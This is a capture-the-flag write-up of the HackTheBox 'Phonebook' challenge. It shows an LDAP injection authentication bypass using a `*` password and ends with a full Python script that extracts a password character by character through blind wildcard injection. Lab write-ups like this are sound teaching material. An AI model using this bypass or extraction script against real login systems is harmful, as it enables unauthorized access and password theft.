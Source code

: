 # HackTheBox Phonebook
## Reconnaissance
After booting up the challenge, we are greeted with the following login screen:
![Login screen](/web/HTB_Phonebook/images/login.PNG)
This screen reveals some interesting information. First of all, the website allows for logging in with workstation usernames and passwords. It is thus most likely connected to Active Directory in some way. Second, there is most likely a user named Reese.

My first idea here was to use dirbuster to see if there were any files exposed that would reveal workstation credentials. However, my dirbuster scan did not result in any interesting files. Instead, I went researching what technology could be behind the AD login to see what it is that we are attacking. My search resulted in the following two forum posts:

[Using active directory to authenticate users on intranet site](https://stackoverflow.com/questions/17773643/using-active-directory-to-authenticate-users-on-intranet-site)

[What is it called when you can log into multiple workstations with one username and password](https://askubuntu.com/questions/727504/what-is-it-called-when-you-can-log-into-multiple-workstations-with-one-username)

These posts revealed that we are most likely looking at an LDAP login. Searching for LDAP vulnerabilities result in tons of pages about LDAP injection including an [OWASP LDAP Injection](https://owasp.org/www-community/attacks/LDAP_Injection) page. At this point I spent some time reading up on LDAP injection, and found a nice [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) resource. This page describes in detail how LDAP injection works, so if it is a new topic for you as well I highly suggest reading up on this. 

## LDAP injection
To summarize, LDAP injection works somewhat similar to SQL injection. The username and password are put into a query that is evaluated. Interestingly, the queries can allow wildcards with `*`. As we don't have the code running and thus don't (yet) know what the query looks like, lets try using a wildcard `*`.

Remember that at the start of the challenge we identified the user Reese. We can try to login using the username `Reese`, and as password we can use `*`. This works! We land on a page that seems to be the actual phonebook. We can search through the phonebook on this page, which results in some names with email addresses and phone numbers. However, there is nothing that immediately looks like it would contain a flag.

![Phonebook](/web/HTB_Phonebook/images/phonebook.PNG)

Here I got stuck for a bit, as it was not clear what we should attack next to get the flag for the challenge. I read through the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) page again, and realised we might want to try blind exploitation. This allows us to brute force the password one by one, whereas previously we just bypassed the password altogether. This allows us to figure out the password, which will hopefully be the flag for the challenge. We can test if Reese's password contains the flag by logging in with the username `Reese`, and password `HTB*`. This will be successful if the password starts with `HTB`, indicating it is a flag. Luckily, this works!

Bruteforcing the password by hand will take quite a lot of work, especially considering flags often contain both uppercase and lowercase letters, as well as numbers and some other characters. Let's thus create a script for this. This script should brute force character by character, and add the character to the password if the login succeeds. Testing the login by hand reveals that both successful and unsuccessful logins result in a redirect (HTTP status code 302), but a successful login redirects to `/` and an unsuccessful one redirects to `/login?message=Authentication%20failed`. 

Below is the Python script I created to extract the flag:

```
import requests
import string

TARGET_URL = "http://<IP>:<PORT>" # Change to actual IP and PORT
LOGIN_PATH = "/login"
USERNAME = "Reese"
PASSWORD = ""

CHARACTER_SET = string.ascii_letters + string.digits + '_-{}!'


def check_password(username, password):
    login_url = f"{TARGET_URL}{LOGIN_PATH}"
    data = {
        "username": username,
        "password": password
    }
    response = requests.post(login_url, data=data, allow_redirects=False)
    redirect_location = response.headers.get('Location')
    if redirect_location == "/":
        return True
    else:
        return False



while True:
    for char in CHARACTER_SET:
        current_guess = PASSWORD + char
        print(f"[*] Progress: {current_guess}", end='\r')
        if check_password(USERNAME, current_guess + "*"):
            PASSWORD += char
            break
    if char == "}":
        break
    
print(f"\n[*] Found password: {PASSWORD}")
```
